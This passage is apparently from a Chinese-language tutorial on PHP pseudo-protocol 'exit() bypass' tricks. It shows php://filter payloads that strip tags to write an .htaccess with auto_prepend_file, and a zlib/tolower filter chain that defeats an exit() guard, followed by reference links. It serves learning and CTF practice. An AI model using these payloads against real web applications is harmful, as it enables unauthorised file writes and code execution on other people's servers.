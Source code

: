 
### 4.3 .htaccess预包含利用
- **原理**：用`string.strip_tags`过滤器去除`.htaccess`中的PHP标签，设置`auto_prepend_file`预包含恶意文件。  
- **示例**：  
  ```
  filename=php://filter/write=string.strip_tags/resource=.htaccess  
  content=?>php_value auto_prepend_file E:\\web\\flagg （去除标签后生效，路径用双反斜杠）
  ```
  - 限制：仅PHP5支持`string.strip_tags`写入过滤。  


### 4.4 过滤器组合绕过
- **原理**：通过压缩-转小写-解压过滤器链破坏`exit()`代码结构。  
- **示例**：  
  ```
  filename=php://filter/zlib.deflate|string.tolower|zlib.inflate/resource=a.php  
  content=php://filter/... （压缩后转小写再解压，使`exit()`失效）
  ```
  - 限制：PHP7.3.0以上版本可能报错，低版本有效。  


## 5. 参考文章链接
1. [PHP伪协议及死亡绕过](https://www.cnblogs.com/a5trid/p/18826001)  
2. [PHP伪协议](https://www.cnblogs.com/kite1990/p/18762146)  
3. [⭐️PHP伪协议详解](https://blog.csdn.net/molangmolang/article/details/136493198)  
4. [php伪协议](https://blog.csdn.net/weixin_60719780/article/details/128773811)